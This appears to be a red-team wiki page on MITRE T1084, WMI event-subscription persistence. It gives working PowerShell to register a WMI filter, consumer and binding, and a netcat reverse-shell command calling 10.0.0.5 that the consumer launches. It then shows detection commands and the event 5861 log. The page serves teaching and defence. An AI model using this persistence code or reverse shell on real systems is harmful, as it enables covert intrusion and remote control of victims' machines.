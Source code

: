 ```yaml
---
description: 'Persistence, privilege escalation.'
---
```


# T1084: Abusing Windows Managent Instrumentation

WMI events are made up of 3 key pieces:

* event filters - conditions that the system will listen for \(i.e on new process created, on new disk added, etc\)
* event consumers - consumers can carry out actions when event filters are triggered \(i.e run a program, log to a log file, execute a script, etc\)
* filter to consumer bindings - the gluing matter that marries event filters and event consumers together in order for the event consumers.

WMI Events can be used by both offenders \(persistance, i.e launch payload when system is booted\) as well as defenders \(kill process evil.exe on its creation\).

## Execution

Creating `WMI __EVENTFILTER`, `WMI __EVENTCONSUMER` and `WMI __FILTERTOCONSUMERBINDING`:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
# WMI __EVENTFILTER
$wmiParams = @{
    ErrorAction = 'Stop'
    NameSpace = 'root\subscription'
}

$wmiParams.Class = '__EventFilter'
$wmiParams.Arguments = @{
    Name = 'evil'
    EventNamespace = 'root\CIMV2'
    QueryLanguage = 'WQL'
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 1200"
}
$filterResult = Set-WmiInstance @wmiParams

# WMI __EVENTCONSUMER
$wmiParams.Class = 'CommandLineEventConsumer'
$wmiParams.Arguments = @{
    Name = 'evil'
    ExecutablePath = "C:\shell.cmd"
}
$consumerResult = Set-WmiInstance @wmiParams

#WMI __FILTERTOCONSUMERBINDING
$wmiParams.Class = '__FilterToConsumerBinding'
$wmiParams.Arguments = @{
    Filter = $filterResult
    Consumer = $consumerResult
}

$bindingResult = Set-WmiInstance @wmiParams
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note that the `ExecutablePath` property of the `__EVENTCONSUMER` points to a rudimentary netcat reverse shell:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd" %}
```text
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

Note the process ancesry of the shell - as usual, wmi/winrm spawns processes from `WmiPrvSE.exe`:

![](../../.gitbook/assets/wmi-shell-system.png)

On the victim/suspected host, we can see all the regsitered WMI event filters, event consumers and their bindings and inspect them for any malicious intents with these commands:

{% code-tabs %}
{% code-tabs-item title="\_\_EventFilter@victim" %}
```csharp
Get-WmiObject -Class __EventFilter -Namespace root\subscription
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note the Query which suggests this wmi filters is checking system uptime every 5 seconds and is checking if its value is more or equal to 1200s:

![](../../.gitbook/assets/wmi-filter.png)

{% code-tabs %}
{% code-tabs-item title="\_\_EventConsumer@victim" %}
```csharp
Get-WmiObject -Class __EventConsumer -Namespace root\subscription:
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/wmi-consumer.png)



{% code-tabs %}
{% code-tabs-item title="\_\_FilterToConsumerBinding@victim" %}
```csharp
Get-WmiObject -Class __FilterToConsumerBinding -Namespace root\subscription
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/wmi-binding.png)

Microsoft-Windows-WMI-Activity/Operational logs contains logs for event `5861` that capture the event filter and event consumer creations:

![](../../.gitbook/assets/wmi-filter-consumer-creation.png)

Based on the research by [Matthew Graeber](https://twitter.com/mattifestation) and other great resources listed below: 

{% embed data="{\"url\":\"https://learn-powershell.net/2013/08/14/powershell-and-events-permanent-wmi-event-subscriptions/\",\"type\":\"link\",\"title\":\"PowerShell and Events: Permanent WMI Event Subscriptions\",\"description\":\"Wrapping up my series on PowerShell and Events, I will be talking about Permanent WMI Event Subscriptions and creating these using PowerShell. Mentioned in my previous article on temporary events, …\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://boeprox.files.wordpress.com/2013/08/image\_thumb29.png\",\"width\":613,\"height\":98,\"aspectRatio\":0.1598694942903752}}" %}

{% embed data="{\"url\":\"https://www.youtube.com/watch?v=0SjMgnGwpq8\",\"type\":\"video\",\"title\":\"Abusing Windows Management Instrumentation \(WMI\)\",\"description\":\"by Matthew Graeber\\n\\nImagine a technology that is built into every Windows operating system going back to Windows 95, runs as System, executes arbitrary code, persists across reboots, and does not drop a single file to disk. Such a thing does exist and it\'s called Windows Management Instrumentation \(WMI\).\\n\\nWith increased scrutiny from anti-virus and \'next-gen\' host endpoints, advanced red teams and attackers already know that the introduction of binaries into a high-security environment is subject to increased scrutiny. WMI enables an attacker practicing a minimalist methodology to blend into their target environment without dropping a single utility to disk. WMI is also unlike other persistence techniques in that rather than executing a payload at a predetermined time, WMI conditionally executes code asynchronously in response to operating system events.\\n\\nThis talk will introduce WMI and demonstrate its offensive uses. We will cover what WMI is, how attackers are currently using it in the wild, how to build a full-featured backdoor, and how to detect and prevent these attacks from occurring.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://www.youtube.com/yts/img/favicon\_144-vfliLAfaB.png\",\"width\":144,\"height\":144,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://i.ytimg.com/vi/0SjMgnGwpq8/maxresdefault.jpg\",\"width\":1280,\"height\":720,\"aspectRatio\":0.5625},\"embed\":{\"type\":\"player\",\"url\":\"https://www.youtube.com/embed/0SjMgnGwpq8?rel=0&showinfo=0\",\"html\":\"<div style=\\\"left: 0; width: 100%; height: 0; position: relative; padding-bottom: 56.2493%;\\\"><iframe src=\\\"https://www.youtube.com/embed/0SjMgnGwpq8?rel=0&amp;showinfo=0\\\" style=\\\"border: 0; top: 0; left: 0; width: 100%; height: 100%; position: absolute;\\\" allowfullscreen scrolling=\\\"no\\\"></iframe></div>\",\"aspectRatio\":1.7778}}" %}

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1084\",\"type\":\"link\",\"title\":\"Windows Management Instrumentation Event Subscription - ATT&CK for Enterprise\"}" %}

{% embed data="{\"url\":\"https://www.darkoperator.com/blog/2013/1/31/introduction-to-wmi-basics-with-powershell-part-1-what-it-is.html\",\"type\":\"link\",\"title\":\"Introduction to WMI Basics with PowerShell Part 1 \(What it is and exploring it with a GUI\)\",\"description\":\"For a while I have been posting several ways I use WMI \(Windows Management Instrumentation\) in my day to day and in consulting but have never covered the basics. Talking with other people in the security field and in the system administration worlds they seem to see WMI as this voodoo black magic th\",\"icon\":{\"type\":\"icon\",\"url\":\"https://static.squarespace.com/universal/default-favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://pentestarmoury.com/2016/07/13/151/\",\"type\":\"link\",\"title\":\"Creeping on Users with WMI Events: Introducing PowerLurk\",\"description\":\"Introduction and Intent Since watching FireEye FLARE’s ‘WhyMI So Sexy?’ at Derbycon last September, I have wanted to better understand WMI Events and apply them to offensive security op…\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://pentestarmoury.files.wordpress.com/2016/07/screen-shot-2016-07-12-at-10-14-29-pm.png?w=1200\",\"width\":1200,\"height\":581,\"aspectRatio\":0.4841666666666667}}" %}

{% embed data="{\"url\":\"https://msdn.microsoft.com/en-us/library/aa394084%28v=vs.85%29.aspx?f=255&MSPPError=-2147217396\",\"type\":\"link\",\"title\":\"Win32 Classes \(Windows\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://msdn.microsoft.com/favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://www.eideon.com/2018-03-02-THL03-WMIBackdoors/\",\"type\":\"link\",\"title\":\"Tales of a Threat Hunter 2\",\"description\":\"Following the trace of WMI Backdoors & other nastiness\"}" %}

{% embed data="{\"url\":\"https://docs.microsoft.com/en-us/previous-versions/windows/embedded/aa940177\(v=winembedded.5\)\",\"type\":\"link\",\"title\":\"WMI Consumers\",\"icon\":{\"type\":\"icon\",\"url\":\"https://docs.microsoft.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://docs.microsoft.com/\_themes/docs.theme/master/en-us/\_themes/images/microsoft-header.png\",\"width\":128,\"height\":128,\"aspectRatio\":1}}" %}







